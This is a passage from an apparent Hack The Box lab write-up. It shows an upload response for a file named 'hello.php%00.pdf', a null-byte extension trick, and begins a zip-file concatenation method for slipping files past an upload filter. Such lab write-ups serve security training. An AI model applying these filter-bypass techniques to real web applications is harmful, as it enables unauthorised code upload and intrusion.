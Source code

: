 ```shell
<--- CUT FOR BREVITY --->
------WebKitFormBoundaryVCJa40SjeVGTBvdD--

```

```shell
HTTP/1.1 200 OK
Date: Sun, 01 Jun 2025 16:54:27 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 10160


<--- CUT FOR BREVITY --->
<div class="col-lg-8">
                    <div class="row">
                        <div class="col-lg-12">
                            <blockquote class="generic-blockquote">
                            File uploaded successfully!. You can check your uploaded assignment file(in case you want to re-upload it or do some changes) <a href='static/uploads/fd5b3018c29991130b22f3381786067b/hello.php%00.pdf'>HERE</a>
                            </blockquote>
                        </div>
                    </div>
```

### Upload Filter Bypass through Zip-File Concatenation

In order to `bypass` the `restrictions` set by the `upload filter` we finally chose a technique called `Zip-File Concatenation`. Therefore we followed the steps explained in the following article.

- [https://cybersecuritynews.com/hackers-employ-zip-file-concatenation/](https://cybersecuritynews.com/hackers-employ-zip-file-concatenation/)

First we downloaded a completely legitimate `.pdf` file and `zipped` it using `7-Zip`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ 7z a foobar.zip foobar.pdf 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive:
1 file, 69988 bytes (69 KiB)

Creating archive: foobar.zip

Add new data to archive: 1 file, 69988 bytes (69 KiB)

    
Files read from disk: 1
Archive size: 56599 bytes (56 KiB)
Everything is Ok
```
